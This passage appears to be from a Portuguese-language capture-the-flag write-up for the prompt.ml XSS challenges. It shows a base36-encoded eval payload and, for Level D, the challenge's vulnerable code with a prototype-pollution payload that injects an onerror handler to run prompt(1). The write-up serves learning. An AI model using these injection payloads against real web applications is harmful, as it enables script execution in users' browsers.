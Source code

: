 `eval(1558153217..toString(36))(1)`

Esse número está em `base36`, e após converter tudo, se transforma em `prompt(1)`

[![Print13.png](https://i.postimg.cc/wxRFw3cz/Print13.png)](https://postimg.cc/V51j6fVZ)

### Level D

Aqui está o enunciado do nível D:

```
 function escape(input) {
    // extend method from Underscore library
    // _.extend(destination, *sources) 
    function extend(obj) {
        var source, prop;
        for (var i = 1, length = arguments.length; i < length; i++) {
            source = arguments[i];
            for (prop in source) {
                obj[prop] = source[prop];
            }
        }
        return obj;
    }
    // a simple picture plugin
    try {
        // pass in something like {"source":"http://sandbox.prompt.ml/PROMPT.JPG"}
        var data = JSON.parse(input);
        var config = extend({
            // default image source
            source: 'http://placehold.it/350x150'
        }, JSON.parse(input));
        // forbit invalid image source
        if (/[^\w:\/.]/.test(config.source)) {
            delete config.source;
        }
        // purify the source by stripping off "
        var source = config.source.replace(/"/g, '');
        // insert the content using mustache-ish template
        return '<img src="{{source}}">'.replace('{{source}}', source);
    } catch (e) {
        return 'Invalid image data.';
    }
}        
```

Nesse nível, o código manipula objetos JSON, a fim de gerar uma imagem com o link inserido. Porém, a vulnerabilidade se encontra na maneira que o objeto proto é manipulado. Nesse caso, ele permite que seja inserida a função onerror, permitindo assim que o código execute a função prompt(1). Para isso, utilizaremos o seguinte payload:

`{"source":{},"__proto__":{"source":"$``onerror=prompt(1)>"}}`

[![Print14.png](https://i.postimg.cc/X70KxLYK/Print14.png)](https://postimg.cc/BtM1nxDt)
